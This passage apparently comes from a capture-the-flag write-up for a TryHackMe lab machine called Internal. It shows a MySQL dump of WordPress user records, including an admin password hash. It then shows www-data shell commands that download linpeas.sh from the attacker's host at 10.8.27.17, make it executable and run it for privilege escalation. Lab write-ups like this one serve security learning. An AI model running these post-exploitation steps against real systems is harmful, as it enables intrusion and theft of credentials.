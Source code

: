 ```bash
12 rows in set (0.00 sec)

mysql> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+--------------------+--------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url                 | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------+--------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BOFWK.UcwNR/tV/nZZvSA6j3bz/WIp/ | admin         | admin@internal.thm | http://192.168.1.45/blog | 2020-08-03 13:19:02 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+--------------------+--------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)

mysql> 

```

- This have only 1 user pass but it is not usefull for us as we have this already
- As we know there is a user as we have explored earlier

```bash
www-data@internal:/home$ s
ls
aubreanna
```

- But we cannot access this and for privilege lets use linpeas

![image.png](image%2019.png)

```bash
www-data@internal:/$ wget http://10.8.27.17:8000/linpeas.sh -O /tmp/linpeas.sh
www-data@internal:/$ chmod +x /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
www-data@internal:/$ /tmp/linpeas.sh
/tmp/linpeas.sh

```

![image.png](image%2020.png)
